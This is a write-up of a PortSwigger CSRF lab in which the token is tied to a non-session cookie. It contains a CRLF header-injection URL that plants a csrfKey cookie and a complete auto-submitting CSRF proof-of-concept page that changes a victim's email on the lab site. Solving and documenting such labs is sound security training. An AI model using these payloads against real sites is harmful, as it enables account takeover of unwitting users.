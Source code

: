 ![image](https://github.com/user-attachments/assets/39192557-1dcb-4afd-a23f-20906f8f342a)## Welcome, my friend. Today we will start the [5. CSRF lab](https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie) in ```portswigger```

### Let's play this lab:

![image](https://github.com/user-attachments/assets/e943f365-30c1-4828-8fbb-07c19bfc220b)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/789699db-cb37-4472-8bd7-e3099aa642f6)

#### We can log in to our account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/993ebfbb-866c-465f-9cef-bdf523e1369d)

#### Let's update email to ```0xT0R@gmail.com```:

![image](https://github.com/user-attachments/assets/c6b7aee1-4974-43dc-b3a5-7231e5258615)

#### We need do this task but through our victim by CSRF, we should intercept this request of update email by burp suite.

![image](https://github.com/user-attachments/assets/2bf7ea9b-a105-4311-9d33-347c82a3cac0)

#### 400 Bad, Hmmm. We can log in to our account using the following credentials: ```carlos:montoya```

![image](https://github.com/user-attachments/assets/0cea3abe-c1d4-4e5c-ac84-379f5cb18725)

### Go to inspect or view page source and copy this csrf:

![image](https://github.com/user-attachments/assets/92f5fef5-af32-4cf1-97e2-65ba8cf5214b)



```
csrf=MIeMs4jmcp8TBV2HnSrUqf5DNoTPalgJ
```

#### And copy this ```csrfkey```:

![image](https://github.com/user-attachments/assets/381c3797-adec-400b-a828-800c43e0aee8)

```
csrfkey=KKuvlQPrwSbJ4IQ6aSUr7Q3F7M026hlL
```

### Now Go to wiener account and go to home page and search about ```hi``` in search paramater:

![image](https://github.com/user-attachments/assets/a265ed6e-0578-48f5-9f34-c4d89d0a5f41)

#### and intercept this request in burp suite:

![image](https://github.com/user-attachments/assets/d6a728d4-e704-402b-a49d-6ecdcffea042)

### Great, we discove ```LastSearchTerm``` paramater in set-cookie.

### Let's changed search value to:

```
/?search=hi%0d%0aSet-Cookie:%20csrfKey=KKuvlQPrwSbJ4IQ6aSUr7Q3F7M026hlL%3b%20SameSite=None
```

![image](https://github.com/user-attachments/assets/282830dd-d28a-4a2e-8292-246684f06095)

### Go to exploit server and paste this code:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5f00c903dee7db80d1865e00d10037.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hi1&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="MIeMs4jmcp8TBV2HnSrUqf5DNoTPalgJ" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a5f00c903dee7db80d1865e00d10037.web-security-academy.net/?search=hi%0d%0aSet-Cookie:%20csrfKey=KKuvlQPrwSbJ4IQ6aSUr7Q3F7M026hlL%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```


![image](https://github.com/user-attachments/assets/e690dc11-0024-4962-90cb-51f064072d6b)

![image](https://github.com/user-attachments/assets/75168ddd-aa6e-4b03-bb77-dd956d97d4ec)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/dab63e63-4abd-40e6-b60a-78617621f2b8" >
</p>
